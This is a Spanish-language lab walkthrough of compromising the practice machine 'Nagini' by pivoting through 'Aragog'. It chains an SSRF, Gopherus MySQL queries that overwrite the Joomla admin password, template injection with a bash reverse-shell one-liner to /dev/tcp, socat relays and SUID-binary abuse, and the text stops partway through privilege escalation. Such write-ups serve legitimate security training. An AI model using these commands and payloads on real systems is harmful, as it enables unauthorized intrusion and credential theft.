 [[10.10.0.4 (Aragog)]]
- Pwned #Nagini
`#CSRF` `#HTTP3`
Hacemos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Podemos agilizar la búsqueda mas si usamos un secuenciador junto con xargs
`seq 1 65535 | xargs -P 700 -I {} nmap -sT -Pn -p{} -open -T5 -n -v 10.10.0.5 | grep "tcp open"`

Navegaremos a la pagina web que nos muestra que esta levantada en el puerto `80`
Vemos información sobre la web con la herramienta con [[WHATWEB]]
`whatweb http://10.10.0.5/`
```python
http://10.10.0.5/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.0.5]
```

Vamos a hacer fuzzing sobre la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://10.10.0.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`
Este nos encontrara los siguientes ficheros
`index.html`
`/joomla`
`note.txt` con el siguiente contenido:
```txt
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

Esto nos indica que se esta usando `HTTP3` que es la tercera versión de HTTP utiliza un puerto UDP
Usaremos la herramienta de quiche con la tool de `./http3-client` como en esta caso no conseguía utilizarla seguí el siguiente paso del video en el que se descubre la ruta:
`/internalResourceFeTcher.php` así que accedemos a ella desde el navegador

Vemos que la URL esta en método get, así que usando la opción 
`?url=` podremos traer al navegador actual por ejemplo llamar a `http://localhost` nos muestra la web del localhost, al igual que podemos cargar la web de la maquina [[10.10.0.4 (Aragog)]] aunque no cargue la imagen. Esto acontece un SSRF (Server Side Request Forgery) y lo podemos usar para enumerar los puertos y servicios internos de la maquina.

Para poder tener conectividad con nuestra maquina atacante lo que haremos sera descargar `socat` y nos lo trasferiremos a la maquina intermedia 192.168.1.23  [[10.10.0.4 (Aragog)]]
Le daremos permisos de ejecución y ejecutaremos la herramienta de la siguiente forma:
`./socat TCP-LISTEN:4343,fork TCP:192.168.1.19:80`
Estamos indicando que todo lo que se pida por el puerto 4343 lo envié a través de la ip de 192.168.1.23  por el puerto 80

En nuestra maquina atacante levantaremos un servidor con python y desde la web de la maquina [[10.10.0.5(Nagini)]] en la url encontrada probamos a acceder a la maquina [[10.10.0.4 (Aragog)]] por el puerto 4343 que es el que le hemos indicado en socat

Ahora desde dentro de la url como tenemos levantado nuestro servidor de python y habilitado todo lo que es el pivoting y el renvió de paquetes intentamos acceder por la url a u8n archivo que creemos en nuestra maquina atacante que se llame `pwned.php` y ver si lo interpreta.

Como no lo interpreta, también encontramos el directorio `/joomla` así que navegamos a el. Usaremo0s la herramienta joomscan para hacer enumeración de vulnerabilidades.
`joomscan -u http://10.10.0.5/joomla/`

La respuesta de la ejecución de esta herramienta nos muestra que esta expuesta la interfaz del administrador `http://10.10.0.5/joomla/administrator/`

También nos encuentra un archivo .bak `http://10.10.0.5/joomla/configuration.php.bak`
Nos lo intentamos descargar para ver su contenido con: `curl -s -X GET http://10.10.0.5/joomla/configuration.php.bak > configuration.php`

Vemos que es un archivo de configuración de la base de datos
Usaremos `gopher` que te permite enumerar bases de datos desde `gopher://` 
Nos clonaremos el repositorio: `git clone https://github.com/tarunkant/Gopherus`
Le damos permisos de ejecución al archivo .py y luego hacemos un enlace simbólico para poder llamarlo desde cualquier parte del sistema: `ln -sf $(pwd)/gopherus.py /usr/local/bin/gopherus`

Ejecutaremos la herramienta con:
`gopherus --exploit mysql` introducimos el nombre de usuario que hemos encontrado en el archivo .bak
Ahora deberemos indicar que QUERY queremos ejecutar por ejemplo, enumerar las bases de datos:
`SHOW databases;`
Y nos muestra una URL a la que podemos acceder desde el navegado donde esta la web que nos permitía inyectar URL en `http://10.10.0.5/internalResourceFeTcher.php`
Tendremos que recargar la pagina varias veces hasta que nos muestre la información, vemos que hay una base de datos llamada joomla, así que ahora enumeraremos las tablas de esa base de datos.
Volvemos a usar el usuario encontrado pero en la QUERY usaremos: `USE joomla; show tables;`

La URL que nos muestra, la volvemos a copiar y la metemos en la pagina de `http://10.10.0.5/internalResourceFeTcher.php` y vemos que hay una tabla de usuarios `joomla_users`

Ahora enumeraremos esa tabla con la misma herramienta y la QUERY: `USE joomla; describe joomla_users;`, vemos que hay columnas de usuario, mail, password, etc...

Nuestra nueva QUERY será: `USE joomla; select name,username,email,password from joomla_users;` y nos mostrara la contraseña del usuario administrador de forma crakeada:
`$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay`

Intentaremos crakearlas con [[JOHN THE RIPPER]]: `john --wordlist=/usr/share/wordlists/rockyou.txt hash` 
No vamos a conseguir crakearla así que intentaremos alterar los datos de los usuarios atreves de la herramienta de Gopherus con la siguiente QUERY: `USE joomla; update joomla_users set password='482c811da5d5b4bc6d497ffa98491e38' where username='site_admin';`

El hash de MD5 lo hemos creado a través de la siguiente ejecución: `echo -n "password123" | md5sum` 

Lo volvemos a meter en nuestra web en la que estamos trabajando y nos dice que se ha ejecutado un cambio, ahora en el panel de administración de joomla en la parte del login intentamos acceder con el usuario `site_admin::pasword123` y conseguiremos acceso al panel de administración.

La intrusión se realiza a través de los templates, alojados en la pestaña de Extensions, y se modificara la plantilla de `erro.php`
En la plantilla realizaremos un oneLiner para traernos una bash a nustra maquina atacante, pero como no llega lo tenemos que enviar al nodo mas cercano que en esta caso es [[10.10.0.4 (Aragog)]]:
`system("bash -c'bash -i >& /dev/tcp/10.10.0.4/1111 0>&1'");`

Guardamos el archivo dándole a save. 
Nos conectaremos por SSH a la maquina ARAGOG `ssh root@192.168.1.23`
En nuestra maquina nos pondremos en escucha por el puerto 443 `nc -nlvp 443`

Ahora en la maquina ARAGOG usaremos el socat para redirigir todo el trafico que le entre a ella por el puerto `1111` que lo redirija al `443` de nuestra maquina atacante que es donde estamos nosotros en escucha.

Obtendremos una shell, entonces realizaremos un tratamiento de esta.

Vemos en los home de los usuarios y el usuario `snape`, tiene un fichero `.creds.txt` que contiene la contraseña de su usuario en base64 así que la decodeamos: `cat .creds.txt | base64 -d; echo`
Nos dará como respuesta `Love@lilly`

En el directorio del home de `hermione` hay una ruta a `./bin/su_cp` con permisos SUID
Es una copia de binario copy del propio sistema, esto nos puede permitir copiarnos archivos a rutas en los que no tenemos capacidad de escritura con el usuario hermione.

Así que vamos a copiarnos nuestra clave publica en el directorio `/tmp/authorized_keys` 




















